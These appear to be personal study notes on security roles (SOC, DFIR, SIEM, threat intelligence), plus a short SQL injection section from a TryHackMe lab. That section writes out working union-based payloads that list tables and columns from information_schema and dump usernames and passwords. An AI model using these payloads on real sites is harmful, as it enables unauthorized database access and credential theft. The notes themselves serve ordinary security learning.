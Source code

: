 # Notes

* Offence / Read team
* Defense / Blue team
  * Prevent attacks
    * User cybersecurity awareness: for instance, sending a mail with a "malicious" link to your salaries, to test their vigilance?
    * Documenting: devices, network...
    * Updating: ensure everything is patched against know vulnerabilities=weakness
    * preventative security devices: firewall (what can enter/exit) and intrusion prevention systems (IPS, sort of antivirus for the network)
    * proper logging, and monitoring, to ensure we know key events (new device...)

* Security Operations Center (SOC): a team
  * Detect weakness, and ensure that a patch is applied
  * Detect policy violations
  * Detect unusual activity (employees...)
  * Detect intrusions
* Threat Intelligence
  * Information about actual and potential enemies
  * "threat-informed defense"
  * the goal is to create a list of recommendations/steps
* Digital Forensics and Incident Response (DFIR)
  * Forensics: FileSystem / Memory / System&Network Logs
  * Incident responder determine how the cyberattack is handled (Preparation, Detection and Analysis, Containment, Eradication, and Recovery, Post-Incident Activity NIST!!!!!)
* Malware Analysis
  * Static (read the code)
  * Dynamic
* security analyst
  * Security Information and Event Management (SIEM) system. A SIEM gathers security-related information and events from various sources and presents them via one system
  * For instance, you would be notified if there is a failed login attempt or a login attempt from an unexpected geographic location. Moreover, with the advent of machine learning, a SIEM might detect unusual behavior, such as a user logging in at 3 AM when he usually logs in only during work hours.
  * Block IP (remediation)
* There are websites on the Internet that allow you to check the reputation of an IP address to see whether it's malicious or suspicious.
  * AbuseIPDB
  * Cisco Talos Intelligence

>  cyber attack include an attacker making our network or systems inaccessible, defacing (changing) the public website,

<hr class="sep-both">

## SQLi

* https://tryhackme.com/room/sqlinjectionlm
* UNION: same type too!
* `'` to discover if an attack is possible
* `';-- -`
* `0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`: `article,staff_users`
* The next thing is the information_schema database; every user of the database has access to this, and it contains information about all the databases and tables the user has access to. In this particular query, we're interested in listing all the tables in the sqli_one database, which is article and staff_users. 
* `0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`
* `0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`
* In-Band (error+union): same channel